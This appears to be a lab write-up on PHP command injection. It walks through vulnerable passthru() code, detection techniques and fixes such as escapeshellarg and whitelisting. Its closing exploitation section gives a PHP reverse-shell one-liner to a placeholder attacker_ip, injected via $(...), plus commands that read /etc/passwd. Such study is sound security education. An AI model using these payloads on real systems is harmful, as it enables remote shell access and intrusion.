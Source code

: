 Command injection occurs when web applications execute system commands using unsanitized user input, enabling attackers to run arbitrary OS commands.

  The provided example involves a PHP script using the passthru() function to run the cowsay command with user-controlled parameters, illustrating a security flaw.

Attackers can exploit inline bash commands $(your_command) within input fields to execute malicious commands on the server.

Common commands used in exploits include whoami, id, ifconfig/ip addr, uname -a, and ps -ef, which help attackers gather system information.

Successful exploitation allows attackers to enumerate files, identify users, and gain information about the server environment, potentially escalating their access.

Proper input validation, parameter sanitization, and avoiding direct command execution with user input are critical to prevent command injection.

The scenario encourages exploiting the vulnerability to answer several security questions related to system configuration, user accounts, and installed software.
example of the code is

```bash
<?php
    if (isset($_GET["mooing"])) {
        $mooing = $_GET["mooing"];           // Get the value of the "mooing" parameter from the URL query string
        $cow = 'default';                    // Set a default cow figure
        
        if(isset($_GET["cow"]))
            $cow = $_GET["cow"];             // If the "cow" parameter is provided, use its value instead
        
        passthru("perl /usr/bin/cowsay -f $cow $mooing");  // Run a Perl program (cowsay) that displays the message with the specified cow figure
    }
?>
```
ALSO THERE IS ONTHER EXAMPLE OF THE CODE:
```bash
<?php
if (isset($_GET['commandString'])) {
    $command_string = $_GET['commandString'];

    try {
        passthru($command_string);
    } catch (Error $error) {
        echo "<p class=mt-3><b>$error</b></p>";
    }
}
?>
```
Line-by-Line Breakdown
`if (isset($_GET['commandString'])) {`:
Checks if a parameter called `commandString` was passed via the URL query string.

`$command_string = $_GET['commandString'];`:
Stores the value of that parameter in the variable `$command_string`.

`try { passthru($command_string); }`:
Attempts to execute the command using `passthru()`, which runs the command and outputs the result directly.

`catch (Error $error) { ... }`:
If an error occurs during execution (like an invalid command or PHP runtime error), it is caught and printed inside a paragraph.

How to detect:

To detect command injection vulnerabilities like in your PHP example, here are practical steps and signs to look for:

How to Detect Command Injection Vulnerabilities

Understand the code context

Look for places where user input `($_GET, $_POST, etc.)` is used directly in functions that execute system commands, like `passthru(), exec(), shell_exec(), system(), or backticks` (`command`).

Try injecting special shell characters via inputs

Test the URL or form fields by adding characters that can break out of the intended command argument, such as:
`
; (semicolon)
&&
| (pipe)
$(), ` (backticks), or other command substitution syntax
`
For example, if the parameter was mooing, try something like:

`CODE_BLOCK_0
or
CODE_BLOCK_1
`
If the output includes results from commands like `ls, whoami`, or other unexpected outputs, the app is likely vulnerable.

2.Check application responses:

If injecting shell meta-characters changes the output or causes errors revealing command output, that indicates vulnerability.

Sometimes error messages or unusual behavior after injection attempts hint at command injection.

Review server logs:

Look for suspicious requests with injected commands or unexpected parameters.

Use automated security tools

Tools like OWASP ZAP, Burp Suite, or command injection-specific scanners can automate testing for command injection.

Static code analysis

Use code analysis tools or manually review source code for dangerous patterns such as:

User input passed directly to `passthru(), exec(), system(), etc`.

Missing input validation or escaping before running shell commands

Summary: To detect injection for the PHP code you shared:

Try to modify the mooing or cow parameters by appending shell commands using characters like `; or &&`.

Observe if the output shows the effect of injected commands.

Check if the application behavior changes or errors out in suspicious ways.

If you want, I can help you draft specific test inputs for detection or explain how to fix the vulnerability. Would you like that?

-Prevention:

Preventing command injection in PHP code like yours is crucial for security. Here are effective ways to prevent command injection in your script:

How to Prevent Command Injection in Your PHP Code

Avoid directly passing user input to shell commands

Wherever possible, do not use functions like ``passthru(), exec(), system()`` with raw user input.

Validate and sanitize inputs strictly

Whitelist allowed values for parameters like cow. For example, prepare a list of allowed cow files and reject anything not in that list.

For text messages (mooing), restrict or sanitize input to remove shell-special characters.

Use `escapeshellarg` or `escapeshellcmd`

Use `escapeshellarg()` to escape parameters that will be passed to the shell, which safely wraps them in quotes and escapes special characters.
Example:
```
php
$mooing = escapeshellarg($_GET["mooing"]);
$cow = escapeshellarg($cow);
passthru("perl /usr/bin/cowsay -f $cow $mooing");
```
However, be careful if $cow is restricted to specific filenames because escapeshellarg will quote the whole string (which might break the `-f` option if not handled properly).

-Use safer alternatives:

Instead of running commands directly, consider using a PHP library or internal logic to do what you want without shell calls.

Or run shell commands in a way that doesn’t allow arbitrary input, for example by:

Restricting $cow to a predefined set (whitelist)

Encoding or sanitizing $mooing

Example of whitelisting cow types:

```
php
$allowed_cows = ['default', 'dragon', 'tux', 'ghostbusters']; // allowed cows
$cow = 'default';

if (isset($_GET['cow']) && in_array($_GET['cow'], $allowed_cows)) {
    $cow = $_GET['cow'];
}

$mooing = escapeshellarg($_GET['mooing']);
passthru("perl /usr/bin/cowsay -f $cow $mooing");
```
Disable dangerous PHP functions (optional)

If possible, disable dangerous functions like `exec, passthru` in your PHP configuration, especially if they aren’t needed.

This is a broader measure but improves overall security.

-Summary:

Never trust user input directly in shell commands.

Whitelist allowed values for known parameters.

Use escapeshellarg() to safely escape arguments.

Validate and sanitize every input rigorously.

Prefer safer ways without shell execution when possible.

If you want, I can help you improve your original code with these protections implemented. Would you like me to?

here are some other commands you may want to try to test for command injection on the web application:



```bash
whoami
id
ifconfig/ip addr
uname -a
ps -ef
```
EXPLOITATION TIME:

First is to create a reverse shell on the terminal for command execution in that case I shall use a cheat sheet i.e [cheat-sheet](swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ruby)

where we paste this ```$(php -r '$sock=fsockopen("attacker_ip",port_NO);exec("/bin/sh -i <&3 >&3 2>&3");')``` ,also this command may work ```php -r '$sock=fsockopen("attacker_ip",port_NO);exec("/bin/sh -i <&3 >&3 2>&3");'```

on the command prompt on the web while we listen using nc port listener in order to access the shell.

After having an interactive shell we can then run several commands that is:

```bash
whoami  # shows the user

ls  #shows the available files and directories on that user

cat /etc/passwd  # shows the available users and there privileges

cat /etc/os-release  # shows the os version running on the web server
```





















































